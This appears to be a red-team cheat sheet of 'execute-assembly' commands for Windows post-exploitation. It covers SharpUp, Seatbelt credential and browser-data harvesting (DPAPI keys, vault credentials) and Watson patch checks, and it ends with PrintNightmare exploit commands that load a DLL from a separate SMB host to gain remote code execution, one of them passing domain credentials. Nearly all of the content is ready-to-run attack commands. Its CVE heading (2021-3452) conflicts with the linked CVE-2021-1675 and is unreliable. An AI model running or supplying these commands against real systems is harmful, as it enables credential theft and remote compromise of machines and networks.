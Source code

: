 ### [SharpUp](https://github.com/GhostPack/SharpUp) - .NET port of PowerUp
```
# Run all checks automatically - output to console
execute-assembly C:\SharpUp.exe
```

### [SeatBelt](https://github.com/GhostPack/Seatbelt) - .NET tool by GhostPack  
GREAT tool to query a local system to gather system/user/remote/misc data
Can be used as Admin or normal-privileged user  
```
# Run ALL checks - returns TONS of data
execute-assembly C:\SeatBelt.exe -group=all -full -outputfile="C:\Temp\SeatBelt-all.json"

# Run only user-related checks - returns things like Chrome data, DPAPI keys, IE tabs, Windows vault/credentials, etc.
execute-assembly C:\SeatBelt.exe -group=user -outputfile="C:\Temp\SeatBelt-user.json"

# Run only system-related checks - returns things like Antivirus, Applocker, env path/variables, local users/groups, WMI, sysmon, UAC, etc.
execute-assembly C:\SeatBelt.exe -group=system -outputfile="C:\Temp\SeatBelt-system.json"

# Run only Chrome checks - returns bookmarks, history, presence
execute-assembly C:\SeatBelt.exe -group=chromium -outputfile="C:\Temp\SeatBelt-chrome.json"

# Run only remote-related checks - returns things like network shares, putty sessions, RDP connections/settings, Filezilla, Windows firewall, etc.
execute-assembly C:\SeatBelt.exe -group=remote -outputfile="C:\Temp\SeatBelt-remote.json"

# Run only miscellaneous-related checks - returns things like Chrome data, logon events, LOBAS, interesting files, downloads, PS events, scheduled tasks, etc.
execute-assembly C:\SeatBelt.exe -group=misc -outputfile="C:\Temp\SeatBelt-misc.json"
```

### Watson - .NET version of Sherlock.ps1 to look for missing KBs on Windows
```
# Peroform all checks and output to console
# Supports:
    Windows 10 1507, 1511, 1607, 1703, 1709, 1803, 1809, 1903, 1909, 2004
    Server 2016 & 2019
execute-assembly C:\Watson.exe 
```

### PrintNightmare priv esc exploit (CVE-2021-3452)
```
# Impacket's PrintNightmare: https://github.com/cube0x0/CVE-2021-1675
# Impacket's SharpNightmare (Csharp): https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare
# PowerShell PrintNightmare local priv esc: https://github.com/calebstewart/CVE-2021-1675

# Local priv esc
execute-assembly C:\SharpPrintNightmare.exe C:\addCube.dll

# RCE using existing context
execute-assembly C:\SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

# RCE using runas /netonly
execute-assembly C:\SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
```
